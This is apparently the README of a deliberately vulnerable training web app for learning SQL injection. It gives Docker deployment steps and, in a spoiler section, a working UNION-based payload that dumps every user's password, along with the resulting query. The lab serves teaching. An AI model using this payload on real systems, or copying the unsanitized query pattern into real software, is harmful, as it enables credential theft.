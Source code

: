 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- `MYSQL_ROOT_PASSWORD` Databse password
- `SQL_HOST` Database host, from the API point of view
- `SQL_WAIT` API waiting for that time (in seconds) before connecting to the database

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

<details>
<summary> :warning: Contains spoilers !</summary>
Here is an example of a working payload, esposing all passwords in the table:<br />


```sql
nothing%" UNION SELECT pass, nickname, email FROM users#
```

Resulting in the following complete query :


```sql
SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
```
</details>
